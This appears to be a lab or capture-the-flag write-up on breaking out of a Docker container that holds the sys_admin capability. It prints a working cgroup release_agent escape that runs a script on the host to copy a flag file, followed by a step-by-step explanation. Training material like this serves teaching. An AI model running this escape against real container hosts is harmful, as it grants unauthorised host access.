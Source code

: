 <h6 align="center" ><img width="600px" src="https://github.com/user-attachments/assets/f17fdbf8-7b36-4bae-bfce-9ee8c0af489f"></h6>

<br>
<p>Before we begin to exploit this for ourselves, you will need to deploy the new Instance attached to this Task. The vulnerabilities of the previous VM conflict with this exploit.</p>
<h3>Connecting to the container</h3>
<p align="center">Connect to your <strong>new Instance</strong> using SSH with the following details:<br>

New Instance IP: MACHINE_IP<br>
SSH Port: 2244<br>
Username: ****<br>
Password: *****</p>

<p>Allowing a few minutes for the new Instance to deploy, I'm going to demonstrate leveraging the "sys_admin" capability. We can confirm we have this capability by grepping the output of <code>capsh</code>:</p>
<br>

<h6 align="center" ><img width="600px" src="https://github.com/user-attachments/assets/39eb29e6-787e-41b2-9936-5685e2b55083"></h6>

<br>
<p>This capability permits us to do multiple of things (which is listed here), but we're going to focus on the ability given to use us via "sys_admin" to be able to mount files from the host OS into the container.<br>

The code snippet below is based upon (but a modified) version of the Proof of Concept (PoC) created by Trailofbits where they detail the inner-workings to this exploit well.</p>

<p>

- mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x<br>
- echo 1 > /tmp/cgrp/x/notify_on_release<br>
- host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`<br>
- echo "$host_path/exploit" > /tmp/cgrp/release_agent<br>
- echo '#!/bin/sh' > /exploit<br>
- echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit<br>
- chmod a+x /exploit<br>
- sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"</p>

<br>
<h3>Let's briefly summarise what happens here</h3>

<p>

- We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "/tmp/cgrp" on the container.<br>
- For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "/tmp/cgrp/x/notify_on_release", we're telling the kernel to execute something once the "cgroup" finishes. (Paul Menage., 2004)<br>
- We find out where the containers files are stored on the host and store it as a variable<br>
- Where we then echo the location of the containers files into our "/exploit" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.<br>
- Let's turn our exploit into a shell on the host<br>
- Execute a command to echo the host flag into a file named "flag.txt" in the container, once "/exploit" is executed<br>
- Make our exploit executable!<br>
- We create a process and store that into "/tmp/cgrp/x/cgroup.procs"</p>
